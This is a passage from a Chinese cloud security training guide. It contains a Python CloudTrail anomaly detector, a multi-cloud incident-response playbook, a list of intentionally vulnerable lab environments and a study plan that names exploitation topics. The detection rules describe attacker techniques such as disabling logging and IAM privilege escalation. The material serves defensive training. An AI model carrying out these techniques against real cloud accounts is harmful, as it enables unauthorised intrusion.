    def query_events(self, hours=24):
        """查询最近N小时的CloudTrail事件"""
        start_time = int((datetime.utcnow() - timedelta(hours=hours)).timestamp() * 1000)

        filter_pattern = '{ ' + ' || '.join(
            f'$.eventName = "{event}"' for event in self.HIGH_RISK_EVENTS
        ) + ' }'

        response = self.client.filter_log_events(
            logGroupName=self.log_group,
            startTime=start_time,
            filterPattern=filter_pattern,
            limit=1000
        )
        return response.get('events', [])

    def detect_anomalies(self, events):
        """基于规则的异常检测"""
        # 检测：短时间内多次登录失败
        failed_logins = {}
        for event in events:
            parsed = json.loads(event.get('message', '{}'))
            if parsed.get('eventName') == 'ConsoleLogin' and parsed.get('errorMessage'):
                user = parsed.get('userIdentity', {}).get('userName', 'unknown')
                ip = parsed.get('sourceIPAddress', 'unknown')
                key = f"{user}:{ip}"
                failed_logins[key] = failed_logins.get(key, 0) + 1

        for key, count in failed_logins.items():
            if count >= 5:
                user, ip = key.split(':')
                self.findings.append({
                    'severity': 'CRITICAL',
                    'type': 'BruteForceLogin',
                    'detail': f'用户 {user} 从 {ip} 连续登录失败 {count} 次'
                })

        # 检测：CloudTrail被禁用
        for event in events:
            parsed = json.loads(event.get('message', '{}'))
            if parsed.get('eventName') in ('StopLogging', 'DeleteTrail'):
                self.findings.append({
                    'severity': 'CRITICAL',
                    'type': 'DefenseEvasion',
                    'detail': f'安全日志被操作: {parsed["eventName"]} by {parsed.get("userIdentity",{}).get("arn","unknown")}'
                })

        # 检测：权限提升操作序列
        privilege_escalation = ['CreateUser', 'CreateAccessKey', 'AttachUserPolicy']
        for event in events:
            parsed = json.loads(event.get('message', '{}'))
            if parsed.get('eventName') in privilege_escalation:
                self.findings.append({
                    'severity': 'HIGH',
                    'type': 'PrivilegeEscalation',
                    'detail': f'权限提升操作: {parsed["eventName"]} by {parsed.get("userIdentity",{}).get("arn","unknown")}'
                })

        return self.findings

    def generate_report(self):
        if not self.findings:
            return "[OK] 未发现威胁"

        report = []
        report.append(f"\n{'='*50}")
        report.append(f"Cloud Threat Detection Report")
        report.append(f"Findings: {len(self.findings)}")
        report.append(f"{'='*50}")
        for f in self.findings:
            report.append(f'[{f["severity"]}] {f["type"]}: {f["detail"]}')
        return '\n'.join(report)


if __name__ == '__main__':
    detector = CloudThreatDetector('CloudTrail/SecurityAudit')
    events = detector.query_events(hours=24)
    detector.detect_anomalies(events)
    print(detector.generate_report())
```

### 练习成果

- 掌握CloudTrail日志分析方法和常见查询模式
- 能够编写自动化威胁检测脚本
- 理解云取证调查的流程和工具

---

## 练习十：多云安全架构设计

### 练习目标

综合运用前9个练习的知识，设计一个安全的多云架构方案，涵盖身份联邦、网络隔离、数据加密、监控告警、应急响应。

### 练习步骤

#### 步骤1：架构设计



#### 步骤2：安全配置清单

| 安全域 | AWS配置项 | Azure配置项 | GCP配置项 |
|:---|:---|:---|:---|
| 身份认证 | IAM Identity Center + MFA | Entra ID + Conditional Access | Workload Identity Federation |
| 最小权限 | SCP + Permission Boundary | Azure Policy + RBAC | Organization Policy + IAM Conditions |
| 网络隔离 | VPC + Security Groups + NACL | VNet + NSG + Private Endpoints | VPC + Firewall Rules + Private Access |
| 数据加密 | KMS + S3 SSE | Key Vault + CMK | Cloud KMS + CMEK |
| 密钥管理 | Secrets Manager + 自动轮换 | Key Vault + HSM | Secret Manager + IAM Bindings |
| 审计日志 | CloudTrail + Config | Activity Logs + Diagnostic Logs | Cloud Audit Logs |
| 威胁检测 | GuardDuty + Macie | Defender for Cloud + Sentinel | SCC + Anomaly Detection |
| 合规评估 | Security Hub + Config Rules | Policy + Compliance | SCC + Policy Analyzer |

#### 步骤3：应急响应Playbook

```yaml
# incident_response_playbook.yaml
incident_types:
  - name: "IAM密钥泄露"
    severity: CRITICAL
    response:
      - step: "立即禁用泄露的Access Key"
        aws_cmd: "aws iam update-access-key --access-key-id KEY_ID --status Inactive --user-name USER"
        azure_cmd: "az ad sp credential reset --id APP_ID"
        gcp_cmd: "gcloud iam service-accounts keys delete KEY_ID --iam-account=SA_EMAIL"
      - step: "检查该密钥的使用记录"
        aws_cmd: "aws cloudtrail lookup-events --lookup-attributes AttributeKey=AccessKeyId,AttributeValue=KEY_ID"
      - step: "轮换所有相关凭据"
      - step: "通知安全团队"

  - name: "S3桶意外公开"
    severity: CRITICAL
    response:
      - step: "启用公共访问阻止"
        aws_cmd: "aws s3api put-public-access-block --bucket BUCKET --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
      - step: "删除公开桶策略"
        aws_cmd: "aws s3api delete-bucket-policy --bucket BUCKET"
      - step: "检查访问日志确认数据泄露范围"
      - step: "通知合规团队评估影响"
```

### 练习成果

- 能够设计安全的多云架构方案
- 理解三大云平台安全特性的对比和互补
- 掌握云安全应急响应的基本流程

---

## 推荐靶场

靶场是练习云安全技术的安全沙箱，以下靶场均部署在你自己的云账户中，资源在练习后可完全销毁。

| 靶场 | 平台 | 难度 | 费用 | 特点 | GitHub地址 |
|:---|:---|:---:|:---:|:---|:---|
| AWSGoat | AWS | ⭐⭐⭐ | 免费 | 15+真实漏洞场景，覆盖S3/EC2/Lambda/IAM | github.com/ine-labs/AWSGoat |
| AzureGoat | Azure | ⭐⭐⭐ | 免费 | 覆盖App Service/Function/Key Vault | github.com/ine-labs/AzureGoat |
| GCPGoat | GCP | ⭐⭐⭐ | 免费 | 覆盖GCE/GCS/Cloud Function/IAM | github.com/ine-labs/GCPGoat |
| Kubernetes Goat | K8s | ⭐⭐⭐⭐ | 免费 | 12+攻击场景，从Pod逃逸到集群接管 | github.com/madhuakula/kubernetes-goat |
| CloudGoat | AWS | ⭐⭐⭐ | 免费 | Rhino Security Labs出品，场景化设计 | github.com/RhinoSecurityLabs/cloudgoat |
| DVCP | 多云 | ⭐⭐⭐⭐⭐ | 免费 | 多云漏洞平台，支持AWS/Azure/GCP | github.com/m6a-UdS/dvcp |
| TerraGoat | IaC | ⭐⭐ | 免费 | 故意不安全的Terraform代码，练习IaC审计 | github.com/bridgecrewio/terragoat |
| CloudFox | 辅助工具 | ⭐⭐⭐ | 免费 | 攻击面枚举工具，发现可利用的云资源 | github.com/BishopFox/cloudfox |

### 靶场使用建议

1. **先搭建后攻击**：不要跳过环境搭建步骤，理解架构是安全评估的前提
2. **从低权限开始**：大部分靶场提供初始低权限凭证，模拟真实攻击的起点
3. **记录每一步**：记录命令、输出、发现，这是构建安全报告能力的关键
4. **练习后清理**：使用`cloudgoat destroy`或手动删除所有资源，避免产生费用

---

## 学习资源

### 核心文档

| 资源 | URL | 说明 |
|:---|:---|:---|
| Hacking the Cloud | https://hackingthe.cloud | 云安全攻击技术百科，最全面的云攻击知识库 |
| Cloud Security Wiki | https://cloudsecuritywiki.com | 云安全知识Wiki，覆盖三大平台 |
| AWS Security Documentation | https://docs.aws.amazon.com/security | AWS官方安全文档 |
| Azure Security Documentation | https://learn.microsoft.com/en-us/azure/security | Azure官方安全文档 |
| GCP Security Documentation | https://cloud.google.com/security | GCP官方安全文档 |

### 认证路径

| 认证 | 平台 | 难度 | 说明 |
|:---|:---|:---:|:---|
| AWS Certified Security - Specialty | AWS | ⭐⭐⭐⭐ | AWS安全专项认证，涵盖所有安全服务 |
| AZ-500: Azure Security Engineer | Azure | ⭐⭐⭐ | Azure安全工程师认证 |
| Google Professional Cloud Security Engineer | GCP | ⭐⭐⭐⭐ | GCP安全工程师认证 |
| CKS: Certified Kubernetes Security Specialist | K8s | ⭐⭐⭐⭐ | K8s安全专家认证，必考kube-bench |
| CCSP: Certified Cloud Security Professional | 多云 | ⭐⭐⭐⭐⭐ | 云安全最高级别认证，(ISC)²出品 |

### 工具生态



---

## 练习建议

### 学习路径规划

```mermaid
gantt
    title 云安全练习时间规划（4-8周）
    dateFormat  W
    section 基础阶段
    AWS S3安全评估           :a1, w1, 1w
    Prowler自动化扫描        :a2, after a1, 1w
    section 进阶阶段
    Azure AD安全评估         :b1, after a2, 1w
    GCP安全评估              :b2, after b1, 1w
    section 高级阶段
    元数据服务利用           :c1, after b2, 1w
    K8s集群渗透              :c2, after c1, 1w
    section 专家阶段
    Serverless安全           :d1, after c2, 1w
    跨云IAM提权              :d2, after d1, 1w
    section 综合
    云取证与检测             :e1, after d2, 1w
    多云安全架构设计         :e2, after e1, 1w
```

### 实践原则

1. **先理解后操作**：每个练习开始前，先阅读对应章节的理论基础部分，理解"为什么"比知道"怎么做"更重要
2. **从手动到自动化**：先手动执行命令理解每一步的含义，再编写自动化脚本提高效率
3. **记录发现**：用笔记本或Markdown文件记录每个练习的关键命令、发现、踩过的坑
4. **复盘总结**：每个练习结束后，回答三个问题：发现了什么？为什么存在？如何防御？
5. **持续学习**：云安全领域变化极快，关注AWS/Azure/GCP的安全博客更新，订阅r/netsec和HackerNews

### 常见学习误区

| 误区 | 为什么是错的 | 正确做法 |
|:---|:---|:---|
| 只练AWS不练其他云 | 真实环境往往是多云，单平台视野局限 | 至少覆盖两个云平台的基础评估 |
| 只关注攻击不学防御 | 理解防御才能理解攻击的价值 | 每个攻击练习都配套完成加固步骤 |
| 跳过靶场直接在生产环境测试 | 可能触发真实安全事件 | 始终使用靶场或自己的测试账户 |
| 只用工具不懂原理 | 工具更新迭代快，原理不会变 | 理解每个检查项背后的安全原理 |
| 忽视清理资源 | 云资源按小时计费，遗忘即烧钱 | 练习结束立即运行清理脚本 |
